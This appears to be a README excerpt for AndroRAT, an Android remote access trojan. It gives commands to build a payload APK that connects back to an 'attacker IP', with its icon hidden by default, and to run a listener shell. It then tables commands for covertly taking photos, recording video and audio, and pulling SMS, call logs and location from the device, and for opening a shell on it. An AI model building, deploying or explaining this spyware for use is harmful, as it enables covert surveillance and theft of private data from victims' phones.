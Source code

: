 
### 📦 Build Mode

**With ngrok:**

```bash
python3 androRAT.py --build --ngrok [flags]
```

**Without ngrok:**

```bash
python3 androRAT.py --build [flags]
```

#### Flags:
- `-i, --ip` &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Attacker IP address (required)  
- `-p, --port` &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Port number (default: 8000)  
- `-o, --output` &nbsp;&nbsp; APK file name (default: `karma.apk`)  
- `--icon` &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Visible icon (default: hidden)  

**Manual Build (Android Studio)**  
Import the `Android Code` folder into **Android Studio**.  
Edit `config.java` to set your **IP address** and **port number**.  
Then go to:  
**Build → Generate Signed APK(s)**

---

### 🖥️ Shell Mode

Open an interpreter shell:

```bash
python3 androRAT.py --shell -i <your_ip> -p <your_port>
```

**Example:**
```bash
python3 androRAT.py --shell -i 0.0.0.0 -p 8000
```

---

## 📝 Interpreter Commands

| Command                        | Description                                    |
|--------------------------------|------------------------------------------------|
| `deviceInfo`                   | Get basic device info                          |
| `camList`                      | Get list of camera IDs                         |
| `takepic [cameraID]`           | Capture picture from selected camera           |
| `startVideo [cameraID]`        | Start recording video                          |
| `stopVideo`                    | Stop recording and save video                  |
| `startAudio`                   | Start recording audio                          |
| `stopAudio`                    | Stop recording audio                           |
| `getSMS [inbox|sent]`          | Fetch inbox/sent SMS messages                  |
| `getCallLogs`                  | Get call logs                                   |
| `shell`                        | Open a sh shell                                 |
| `vibrate [times]`              | Vibrate device given number of times            |
| `getLocation`                  | Get current device location                     |